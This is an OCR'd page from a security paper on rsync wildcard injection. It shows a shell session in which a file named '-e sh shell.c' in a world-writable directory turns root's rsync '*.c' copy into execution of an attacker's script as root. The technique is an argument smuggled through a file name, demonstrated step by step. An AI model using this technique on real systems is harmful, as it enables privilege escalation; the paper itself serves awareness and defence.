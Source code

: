 Rsync is "a fast, versatile, remote (and local) file-copying tool", that is very
common on Unix systems.
If we check 'rsync' manual page, we can again find options that can be abused for arbitrary
command execution.

Rsync manual:
"You use rsync in the same way you use rcp. You must specify a source and a destination,
one of which may be remote."

Interesting rsync option from manual:

 -e, --rsh=COMMAND           specify the remote shell to use
     --rsync-path=PROGRAM    specify the rsync to run on remote machine


Let's abuse one example directly from the 'rsync' manual page.
Following example will copy all C files in local directory to a remote host 'foo'
in '/src' directory.
# rsync -t *.c foo:src/

Directory content:

[root@defensecode public]# ls -al
total 72
drwxrwxrwx.  2 user user  4096 Mar 28 04:47 .
drwx------. 24 user user  4096 Oct 28 18:32 ..
-rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
-rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
-rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
-rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
-rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
-rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
-rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
-rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
-rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
-rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
-rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
-rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
-rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

Now root will try to copy all C files to the remote server.

[root@defensecode public]# rsync -t *.c foo:src/

rsync: connection unexpectedly closed (0 bytes received so far) [sender]
rsync error: error in rsync protocol data stream (code 12) at io.c(601) [sender=3.0.8]

Let's see what happened...

[root@defensecode public]# ls -al
total 76
drwxrwxrwx.  2 user user  4096 Mar 28 04:49 .
drwx------. 24 user user  4096 Oct 28 18:32 ..
-rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
-rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
-rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
-rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
-rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
-rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
-rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
-rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
-rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
-rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
-rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
-rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
-rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
-rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt
